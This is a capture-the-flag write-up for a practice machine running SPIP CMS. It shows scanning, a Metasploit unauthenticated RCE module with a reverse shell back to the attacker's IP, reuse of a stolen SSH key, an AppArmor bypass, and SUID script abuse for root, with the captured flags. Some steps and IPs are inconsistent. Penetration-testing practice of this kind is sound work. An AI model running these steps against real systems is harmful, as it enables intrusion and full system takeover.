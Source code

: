FLAG 1  (1 - 11 pictures)
Goal: Gain unauthorized access and capture the user.txt flag from a vulnerable machine running the SPIP CMS.
This project was completed as part of penetration testing practice.

Target Description
Target IP: 10.201.26.102
My Kali IP: 10.10.190.95
Objectives:

Scan the target host and identify open ports.

Discover a vulnerable web application (SPIP CMS).

Gain a reverse shell.

Escalate privileges to the think user.

Find and capture the user.txt flag.

Scanning
Initial Nmap scan revealed:

nmap -sC -sV -p- 10.201.26.102

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54
Port 80 was open. Visiting the page in a browser showed a standard SPIP CMS interface.

Vulnerability Discovery
Using whatweb, I confirmed the server runs SPIP CMS:

whatweb http://10.201.26.102/
=> SPIP, Apache, PHP
After checking the plugin and core versions, I confirmed it was vulnerable to unauthenticated RCE via the bigup module (spip_bigup_unauth_rce).

Exploitation (First Failed Attempt)
I initially tried to use:

use exploit/unix/webapp/spip_exec
But Metasploit returned:

[-] Failed to load module: exploit/unix/webapp/spip_exec
So this attempt failed.

Successful Exploitation
I then found the correct module in Metasploit:

use exploit/multi/http/spip_bigup_unauth_rce
Set the options:

set RHOSTS 10.201.26.102
set LHOST 10.10.190.95
set LPORT 9001
set TARGETURI /
run
And successfully got:

[*] Command shell session 1 opened
Working in the Shell
Although the shell was unstable, I managed to run basic commands and navigate to the home directory:

cd /home/think
ls -la
Output:


Edit
-rw-r--r-- 1 root root 35 Feb 10  2024 user.txt
Then:

cat user.txt
And retrieved the flag:
fa229046d44eda6a3598c73ad96f4ca5

Conclusion
Despite unstable shell sessions, I successfully:

Identified a SPIP-based web app.

Found an unauthenticated RCE vulnerability via the bigup module.

Gained shell access and navigated the system as user think.

Captured the user.txt flag.

FLAG 2 ! 
I found the SSH private key for user think in /home/think/.ssh/id_rsa.

I downloaded the key locally and successfully connected via SSH:

ssh -i id_rsa think@10.201.77.224
think@publisher:~$
I discovered that AppArmor is installed on the machine:

ls -l /etc/ | grep apparmor
drwxr-xr-x 3 root root 4096 Dec 8 2023 apparmor
drwxr-xr-x 8 root root 4096 Feb 12 2025 apparmor.d
I searched for SUID programs owned by root:

find / -user root -perm -4000 2>/dev/null
I found the program /usr/sbin/run_container.

When I ran it, I saw an error indicating it executes the script /opt/run_container.sh:

bash
Copy
Edit
/opt/run_container.sh: line 16: validate_container_id: command not found
I checked the permissions of /opt/run_container.sh:

ls -l /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10 12:40 /opt/run_container.sh
I tried to overwrite the script to get a reverse shell, but permission was denied due to AppArmor restrictions:

echo "/bin/bash -i" > /opt/run_container.sh
ash: /opt/run_container.sh: Permission denied
I analyzed the AppArmor profile applied to the current shell /usr/sbin/ash:

cat /etc/apparmor.d/usr.sbin.ash
It showed that writing to /opt/ is denied, but writing to /var/tmp/ is allowed.

I confirmed I can write to /var/tmp/:

bash
Copy
Edit
touch /var/tmp/test
ls -l /var/tmp/test
-rw-rw-r-- 1 think think 0 ...
I created a Perl script /var/tmp/test.pl to elevate privileges to root:

#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
I made it executable and ran it:

chmod +x /var/tmp/test.pl
/var/tmp/test.pl
echo $0
/bin/sh
Then I edited /opt/run_container.sh to add a privileged shell invocation with the -p option:

#!/bin/bash
/bin/bash -p  # added line
After that, I ran /usr/sbin/run_container and got a root shell:

/usr/sbin/run_container
bash-5.0# whoami

bash-5.0# cat /root/root.txt
3a4225cc9e85709adda6ef55d6a4f2ca

Due to a temporary GitHub error, I was unable to upload images for the report.
